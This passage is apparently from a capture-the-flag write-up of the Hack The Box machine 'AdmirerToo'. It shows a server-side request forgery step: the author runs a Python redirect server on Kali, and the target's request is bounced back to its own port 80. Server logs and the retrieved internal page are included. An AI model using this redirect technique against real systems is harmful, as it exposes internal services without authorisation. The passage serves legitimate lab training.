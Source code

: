 ![admirertoo-ssrf-index-page](/assets/images/2022-02-28-22-54-55.png)

If you do html2text on that output you'll see it's the index.php page from the original admirer-gallery.htb site we saw right at the start:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# cat html | html2text

Admirer
****** Admirer of theworld. ******
Welcome to my image gallery.
Are you an admirer too?
 [img/highway.jpg]
******_Biodiesel_squid_******
Have_you_ever_seen_anything_like_it?
[img/portfolio_item_4.png]
******_raclette_taxidermy_******
Impressive,_isn't_it?
<SNIP>
```

And looking at our redirector running in Kali we see we had a hit:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 http://127.0.0.1
serving at port 80
10.10.11.137 - - [28/Feb/2022 22:53:51] "GET / HTTP/1.0" 301 -
10.10.11.137 - - [28/Feb/2022 22:53:52] "GET / HTTP/1.0" 301 -
```

This confirms that we redirected the request back to port 80 on the box and that we can use SSRF to further enumerate it. If you need a primer on SSRF then PortSwigger have a good article [here](https://portswigger.net/web-security/ssrf).
